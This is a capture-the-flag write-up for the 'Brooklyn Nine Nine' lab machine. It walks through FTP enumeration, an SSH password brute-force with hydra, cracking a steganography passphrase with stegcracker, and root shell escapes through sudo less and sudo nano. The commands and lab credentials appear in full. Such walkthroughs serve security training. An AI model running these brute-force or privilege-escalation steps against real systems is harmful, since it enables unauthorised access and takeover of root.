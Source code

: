 ![](Images/banner.png)

What we can learn from this machine?
* FTP 
* stegcracker
* GTFObins (less sudo allowed no-password)

In this box I'm using two methods to login to our user.

Let's enumerate the machine. Ok then !! let's run our nmap.

```text
# Nmap 7.91 scan initiated Tue Jul 13 09:37:54 2021 as: nmap -sC -sV -A -oN nmap 10.10.34.147
Nmap scan report for 10.10.34.147
Host is up (0.18s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.4.19
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jul 13 09:39:13 2021 -- 1 IP address (1 host up) scanned in 79.32 seconds
```

We got port 21 ftp it allowed to anonymous login and we got a file to jake. we got port 22 ssh and port 80 open.

## Method 1
Let's  get that file on ftp server. When we get that file we can see this msg to jake from amy. (use get command to grab the file)

```text
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Looks like jake got weak password. Let's try to bruteforce the jake's ssh password. Here is the command I use to bruteforce :

```bash
hydra -l jake -P /opt/rockyou.txt ssh://10.10.34.137

```

After the bruteforce we easily got the jake's password. 

```bash
[DATA] attacking ssh://10.10.34.147:22/
[22][ssh] host: 10.10.34.147   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```
Let's ssh to jake's machine. After the log in we cannot see the user.txt. But we can search for it from using find command.

```bash
find / -type f -name user.txt 2>/dev/null
```
Here is the result:

```bash
jake@brookly_nine_nine:~$ find / -type f -name user.txt 2>/dev/null
/home/holt/user.txt
jake@brookly_nine_nine:~$ cat /home/holt/user.txt
```
Let's see what jake can do with **sudo** for that. Run *sudo -l* command. 

```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Ok then!! Let's search this on gtfobins (https://gtfobins.github.io/gtfobins/less/#sudo).

![](Images/less.png)

After the reading this. you can type **sudo less /etc/profile** and after it execute less on /etc/profile file you can type **!/bin/sh** and type enter.

```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
# Method 2
We know we got port 80 open which is web server. Let's go to it and we can see this image on web page.

![](Images/web.png)

When we go into the source. We can see this comment. 
```
Have you ever heard of steganography? 
```
Ok then !! let's grab this image annd take a look into the image. For that I'm using steghide.

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ steghide info brooklyn99.jpg
"brooklyn99.jpg":
  format: jpeg
  capacity: 3.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
steghide: could not extract any data with that passphrase!
```
We don't have to passphrase to see inside. But we can use **stegcracker** to crack the passphrase. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20331 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Passphrase was the *admin*. When we read the output we can see the holt's ssh password. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Let's ssh into the holt user and grab the user key. 

```bash
┌──(kali@kali)-[~/ctf/thm/brooklyn99/loot]
└─$ ssh holt@10.10.34.147                                                                1 ⨯
holt@10.10.34.147's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ ls
nano.save  user.txt
holt@brookly_nine_nine:~$ cat user.txt
```
After executing sudo -l I found this.

```bash
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Hmm !! Let's see what we can do for this. When we search this on gtfobins we got this. (https://gtfobins.github.io/gtfobins/nano/#sudo)

![](Images/nano.png)

How to do this.. Let's open the nano with sudo and press ctrl+r and ctrl+x to execute this command **reset; sh 1>&0 2>&0**. 

![](Images/nano%201.png)
